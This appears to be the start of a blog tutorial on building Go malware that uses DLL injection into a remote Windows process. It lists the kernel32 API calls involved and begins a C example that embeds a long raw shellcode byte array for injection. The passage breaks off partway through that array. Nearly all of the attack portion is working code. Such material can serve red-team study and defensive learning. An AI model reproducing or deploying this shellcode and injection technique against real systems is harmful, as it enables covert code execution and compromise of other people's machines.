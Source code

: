 ```yaml
---
title: 'GoLang malware utilyzing DLL Injection on a remote process'
description: "Exploring remote process DLL Injection, DLL writing, and a simple gobrat POC."
author: 'Tim Sonner'
date: '2023-07-18'
hero: '/go-remote-dll-process-injection/go-dll-inject-hero.jpeg'
published: true
---  
```


![](/go-remote-dll-process-injection/go-dll-inject-hero.jpeg)

> Cassin's Finch (Male), Carpodacus cassinii, Cabin Lake Viewing Blinds, Deschutes National Forest, Near Fort Rock, Oregon - www.naturespicsonline.com explicitly releases to public domain  

## We're going to be injecting some DLLs in a remote running system process by calling Windows kernel32.dll functions...

- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- CreateRemoteThread()
- CloseHandle(processHandle)  

  

**I'm making the assumption you have mingw64 or the MSVC C++ developer tools (putting this here for me: "VC++ 2017 version 15.9 v14.16" because dumpbin.exe) installed on the Windows box, probably the Go compiler. Also assuming compiling from powershell (paths may be wonky otherwise)...**

**The first thing we're going to do is try injecting some basic shellcode into a remote process just as a quick demo in case you've never done this before and actually the place I went to learn the most basic syntax of the calls. Letz get started with some C...**

## Take a look at Red Team Notes for a basic example of shellcode injection into a remote process. 

**https://www.ired.team/offensive-security/code-injection-process-injection/process-injection**  

- example-1.c  

```c  
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
```